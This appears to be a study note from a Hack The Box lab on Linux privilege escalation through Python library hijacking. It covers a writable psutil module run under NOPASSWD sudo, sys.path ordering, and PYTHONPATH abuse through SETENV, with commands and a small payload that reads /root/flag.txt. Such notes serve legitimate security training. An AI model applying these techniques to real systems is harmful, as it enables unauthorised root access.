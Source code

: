 #Linux_PrivilegeEscalation 

---

There are 3 main vulnerabilities we can exploit:
- Wrong write permissions
- Library path
- `PYTHONPATH` environment variable

- Assume we have the following Python script
```python
!/usr/bin/env python3
import psutil

available_memory = psutil.virtual_memory().available * 100 / psutil.virtual_memory().total

print(f"Available memory: {round(available_memory, 2)}%")
```

- We note that it uses the `psutil` library. We can check the path where this library is imported from using the following command:
```bash
htb-student@ubuntu:~$ pip3 show psutil
Name: psutil
Version: 5.9.5
Summary: Cross-platform lib for process and system monitoring in Python.
Home-page: https://github.com/giampaolo/psutil
Author: Giampaolo Rodola
Author-email: g.rodola@gmail.com
License: BSD-3-Clause
Location: /usr/local/lib/python3.8/dist-packages
Requires: 
Required-by: 
```
We note the path is `/usr/local/lib/python3.8/dist-packages`.

- We note that the file permissions for `__init__.py` are incorrect:
```bash
htb-student@ubuntu:~$ ls -ll /usr/local/lib/python3.8/dist-packages/psutil
total 560
-rw-r--r-- 1 root        staff  29181 May 19  2023 _common.py
-rw-r--r-- 1 root        staff  15025 May 19  2023 _compat.py
-rw-r--r-- 1 htb-student staff  87657 Jun  8  2023 __init__.py
```
since our user belongs to the `htb-student` group:
```bash
htb-student@ubuntu:~$ groups
htb-student
```

- So we can modify the `virtual_memory` in `/usr/local/lib/python3.8/dist-packages/psutil/__init__.py` as follows
```python
f = open('/root/flag.txt', 'r')
print(f.read())
```

- We also see that we can run the file `/home/htb-student/mem_status.py` with root permissions:
```bash
htb-student@ubuntu:~$ sudo -l
Matching Defaults entries for htb-student on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User htb-student may run the following commands on ubuntu:
    (ALL) NOPASSWD: /usr/bin/python3 /home/htb-student/mem_status.py
```
=> We get a root shell by running `sudo /usr/bin/python3 /home/htb-student/mem_status.py`


**Exploit Method 2**

- Python checks several libraries from where to load a module, and it searches in top-down. We can check these paths using the following command: 
```bash
python3 -c 'import sys; print("\n".join(sys.path))'
```

=> If one of the paths on top has incorrect permissions we can modify it to include a "hacked" version of an imported library


**Exploit Method 3**

- If the `PYTHONPATH` env variable is set, Python will load a module from the path defined there => If a user can modify `PYTHONPATH`, i.e. they have the following permissions
```bash
htb-student@lpenix:~$ sudo -l 

Matching Defaults entries for htb-student on ACADEMY-LPENIX:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User htb-student may run the following commands on ACADEMY-LPENIX:
    (ALL : ALL) SETENV: NOPASSWD: /usr/bin/python3
```

We can run the following command:
```bash
sudo PYTHONPATH=/tmp /usr/bin/python3 ./mem_status.py
```

